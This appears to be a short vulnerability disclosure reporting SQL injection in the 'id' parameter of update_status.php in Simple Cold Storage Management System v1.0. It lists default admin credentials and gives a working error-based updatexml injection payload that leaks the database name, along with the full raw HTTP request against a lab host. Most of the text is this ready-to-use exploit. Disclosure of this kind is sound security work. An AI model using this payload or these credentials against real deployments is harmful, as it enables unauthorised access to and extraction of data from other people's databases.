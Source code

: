 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: QiaoRui feng

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/admin/bookings/update_status.php?id=

Vulnerability location: /csms/admin/bookings/update_status.php?id=, id

dbname =csms_db,length=7

[+] Payload: /csms/admin/bookings/update_status.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /csms/admin/bookings/update_status.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191013186-8adc1c41-b13a-4d67-8590-fb6dca6d4a96.png)
